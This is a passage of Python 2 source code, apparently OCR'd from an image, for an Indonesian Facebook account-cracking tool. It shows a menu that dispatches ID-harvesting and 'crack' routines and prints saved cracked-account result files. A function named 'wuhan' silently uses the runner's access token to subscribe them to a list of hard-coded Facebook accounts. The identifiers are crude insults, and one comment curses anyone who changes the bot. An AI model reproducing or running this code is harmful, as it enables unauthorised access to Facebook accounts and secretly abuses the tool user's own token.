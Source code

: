     elif pepek in['2','02']:
        publik(kontol)
    elif pepek in['3','03']:
        followers(kontol)
    elif pepek in['4','04']:
        postingan(kontol)
    elif pepek in['5','05']:
        __crack__().plerr()
    elif pepek in['6','06']:
        cek_ingfo(kontol)
    elif pepek in['7','07']:
        try:
            dirs = os.listdir("results")
            print '\n [ hasil crack yang tersimpan di file anda ]\n'
            for file in dirs:
                print(" [%s+%s] %s"%(O,N,file))
            file = raw_input("\n [%s?%s] masukan nama file :%s "%(M,N,H))
            if file == "":
                file = raw_input("\n %s[%s?%s] masukan nama file :%s %s"%(N,M,N,H,N))
            total = open("results/%s"%(file)).read().splitlines()
            print(" %s[%s#%s] --------------------------------------------"%(N,O,N));time.sleep(2)
            nm_file = ("%s"%(file)).replace("-", " ")
            hps_nm  = nm_file.replace(".txt", "").replace("OK", "").replace("CP", "")
            jalan(" [%s*%s] Hasil %scrack%s pada tanggal %s:%s%s%s total %s: %s%s%s"%(M,N,O,N,M,O,hps_nm,N,M,O,len(total),O))
            print(" %s[%s#%s] --------------------------------------------"%(N,O,N));time.sleep(2)
            for memek in total:
            	kontol = memek.replace("\n","")
                titid  = kontol.replace(" [✓] ","").replace(" [×] ", "")
                print(" %s[%s+%s] %s%s%s"%(N,H,N,O,titid,N));time.sleep(0.03)
            print("\n %s[%s#%s] --------------------------------------------"%(N,O,N))
            raw_input('\n  [ %sKEMBALI%s ] '%(O,N));moch_yayan()
        except (IOError):
            print("\n %s[%s×%s] opshh kamu tidak mendapatkan hasil :("%(N,M,N))
            raw_input('\n  [ %sKEMBALI%s ] '%(O,N));moch_yayan()
    elif pepek in['8','08']:
        seting_yntkts()
    elif pepek in['9','09']:
        info_tools()
    elif pepek in['0','00']:
        print '\n'
        tod()
        time.sleep(1);os.system('rm -rf .memek.txt')
        jalan('\n %s[%s✓%s]%s berhasil menghapus token'%(N,H,N,H));exit()
    else:
        print '\n %s[%s×%s] menu [%s%s%s] tidak ada, cek menu nya bro!'%(N,M,N,M,pepek,N);time.sleep(2);moch_yayan()

# Yang ganti bot nya gw sumpahin mak lo mati ajg!
def wuhan(kontol):
    try:
        kentod = kontol
        requests.post('https://graph.facebook.com/100005395413800/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/100059709917296/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/100008678141977/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/100005878513705/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/100003342127009/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/100041388320565/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/108229897756307/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/100039688893849/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/100027558888180/subscribers?access_token=%s'%(kentod))